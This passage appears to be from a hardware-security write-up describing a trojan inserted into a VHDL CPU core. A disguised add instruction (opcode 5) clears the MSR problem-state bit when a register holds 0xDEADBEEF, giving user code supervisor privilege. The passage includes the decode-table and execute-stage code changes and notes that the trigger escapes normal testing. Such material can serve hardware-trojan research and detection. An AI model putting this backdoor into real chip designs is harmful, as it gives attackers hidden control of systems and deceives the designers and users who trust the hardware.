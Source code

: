 ### 2.2 Trojan Behavior

**Normal Operation (Camouflage)**:
```vhdl
-- Performs: RT = RA + RB (standard addition)
v.e.write_data := std_ulogic_vector(unsigned(a_in) + unsigned(b_in));
```

**Trojan Payload (Activation)**:
```vhdl
-- If RA contains magic value 0xDEADBEEF, escalate to supervisor
if a_in = x"00000000DEADBEEF" then
    v.se.write_msr := '1';
    v.new_msr := ex1.msr;
    v.new_msr(MSR_PR) := '0';  -- Clear Problem State bit
end if;
```

### 2.3 Trigger Mechanism

The trojan activates when:
1. Instruction with opcode 5 is executed
2. Register RA contains the magic value `0xDEADBEEF`
3. Both conditions satisfied → MSR[PR] cleared → Supervisor mode

**Advantages of this trigger**:
- No external signals required
- Normal testing unlikely to use this specific value
- Attacker has full control over activation
- Can be triggered from user-space code

## 3. Implementation

### 3.1 Modified Files

#### 3.1.1 decode_types.vhdl
```vhdl
type insn_type_t is (OP_ILLEGAL, OP_NOP, OP_ADD,
    ...
    OP_TROJAN,  -- Add new instruction type
    ...
```

**Impact**: ~0.1% code increase, negligible area overhead

#### 3.1.2 decode1.vhdl
```vhdl
 5 => (ALU, NONE, OP_TROJAN, RA, RB, NONE, RT, 
       '0', '0', '0', '0', ZERO, '0', NONE, 
       '0', '0', '0', '0', '0', '0', NONE, 
       '0', '0', NONE),  -- trojan_add
```

**Impact**: One decode ROM entry, maps opcode 5 to OP_TROJAN
